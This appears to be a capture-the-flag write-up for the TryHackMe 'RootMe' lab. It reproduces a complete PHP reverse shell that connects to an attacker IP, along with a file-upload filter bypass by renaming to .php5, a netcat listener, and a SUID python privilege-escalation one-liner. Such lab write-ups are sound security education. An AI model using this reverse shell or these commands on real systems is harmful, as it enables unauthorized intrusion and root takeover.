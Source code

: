 # RootMe - THM
###  Difficulty level: Easy
------------------------------------------------------

I'll start by running nmap scan:
```bash
nmap -sV -sC 10.10.12.73 -oN scan.nmap
```

![image](https://user-images.githubusercontent.com/114166939/226315146-a7b150ac-c319-4da5-afbd-5d66906843e8.png)

Let's take a look on the website:

I'll run a brute-force attack on the url to find hidden directories:
```bash
gobuster dir -u http://10.10.12.73/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt > dirs.txt
```
![image](https://user-images.githubusercontent.com/114166939/226315983-f670d517-b741-4bfc-8c97-820c1e5cdf21.png)

The "/panel" directory includes images upload system:

![image](https://user-images.githubusercontent.com/114166939/226316570-95810171-e5d0-4216-923d-8dbbcdcd283b.png)

I'll try to get a reverse shell by uploading an exploit to this system,
I'm going to use php code for reverse shell by "https://pentestmonkey.net/":
```php
  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '[MY-IP]';  // change this
  $port = [PORT];  // And this
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;
  
  if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");

  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
  }

  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");

  while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
      printit("ERROR: Shell connection terminated");
      break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
      printit("ERROR: Shell process terminated");
      break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
      if ($debug) printit("SOCK READ");
      $input = fread($sock, $chunk_size);
      if ($debug) printit("SOCK: $input");
      fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
      if ($debug) printit("STDOUT READ");
      $input = fread($pipes[1], $chunk_size);
      if ($debug) printit("STDOUT: $input");
      fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
      if ($debug) printit("STDERR READ");
      $input = fread($pipes[2], $chunk_size);
      if ($debug) printit("STDERR: $input");
      fwrite($sock, $input);
    }
  }

  fclose($sock);
  fclose($pipes[0]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  proc_close($process);

  // Like print, but does nothing if we've daemonised ourself
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string
";
    }
  }

  ?> 
```
I changed the IP and port and called this file "reverse.php" and now I'm going to upload it to the panel:

![image](https://user-images.githubusercontent.com/114166939/226318268-7abbee05-bc19-4640-a7e6-d93bb8649fbc.png)

It detected and blocked the file, so to pass this validation  I found this page: "https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass".

So I'll change the file name to:"reverse.php5" and let's try again!

![image](https://user-images.githubusercontent.com/114166939/226319215-cea89063-2462-4d5e-84cc-da804415d50a.png)

Now i can find the upload at "/uploads" directory.

![image](https://user-images.githubusercontent.com/114166939/226319479-90a95ccd-e8cc-4049-b199-6c976cfe0823.png)

First, I'll run a netcat listener:
```bash
nc -lnvp [PORT]
```

And now run the reverse shell from the "/uploads" directory,
Got a reverse shell as "www-data" user.

![image](https://user-images.githubusercontent.com/114166939/226320289-3bc03e06-ed7b-40ce-899d-b01f0dca4eae.png)

Now, I can find the user.txt flag which stored at "/var/www":

![image](https://user-images.githubusercontent.com/114166939/226320713-e422b773-2245-4686-aeb7-713225bee469.png)

To find the root.txt flag, I need to find a way to escalate my privileges and become the root user.

I'm going to search for SUID files with the command:
```bash
find / -user root -perm /4000 2>/dev/null
```
One of the most suspicious files in the output is "/usr/bin/python"

![image](https://user-images.githubusercontent.com/114166939/226321712-c3ab1b4b-fc18-4686-a623-a14eba96850d.png)

I'll search for a vulnerability for SUID binary python file on "https://gtfobins.github.io/".

Found the following command:
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
I'll enter to "/usr/bin" and run this command:

![image](https://user-images.githubusercontent.com/114166939/226322547-13b6e186-2cc7-4be9-ba31-3a1e2a3f4677.png)

Now all we need to do is enter the root directory and print the root.txt flag:

![image](https://user-images.githubusercontent.com/114166939/226325201-fd09f234-be21-4c33-8550-fcb9125bcb99.png)
